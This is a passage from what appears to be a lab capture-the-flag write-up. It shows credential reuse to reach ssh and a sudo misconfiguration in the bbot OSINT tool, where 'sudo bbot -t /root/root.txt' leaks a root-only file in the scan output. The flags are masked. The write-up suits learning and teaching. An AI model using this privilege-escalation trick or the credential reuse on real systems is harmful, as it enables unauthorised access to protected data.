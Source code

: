 I tried these credentials, first with neo4j with no success... Then I thought "maybe they are the same credentials as __graphasm__?" So I tried to log in via ssh and I got in!

```
$ cat user.txt
f0********************29
```

# Root

I tried to see what I could do with sudo

```
$ sudo -l

Matching Defaults entries for graphasm on cypher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot
```

we have this program __"/usr/local/bin/bbot"__.

I saw this program and found out that it is a program for OSINT

```
$ /usr/local/bin/bbot
  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc

www.blacklanternsecurity.com/bbot
...
```

After some research I managed to develop a way to read the root.txt file, in fact if we enter the following command:

```
$ sudo /usr/local/bin/bbot -t /root/root.txt -t ecorp.htb
```

This simply says to take a file of various targets, these targets will be given in output, in fact we will have as output of the command:

```
$ sudo /usr/local/bin/bbot -t /root/root.txt -t ecorp.htb
...
[SCAN]                  dramatic_gary (SCAN:8d********************2f)   TARGET  (in-scope, target)
...
```


## End

Honestly this machine has put me to the test, in fact I did not know this technology and I enjoyed banging my head against it to learn...

I can say that I am very satisfied with this!

Thanks for reading

__- 1xA1e -__
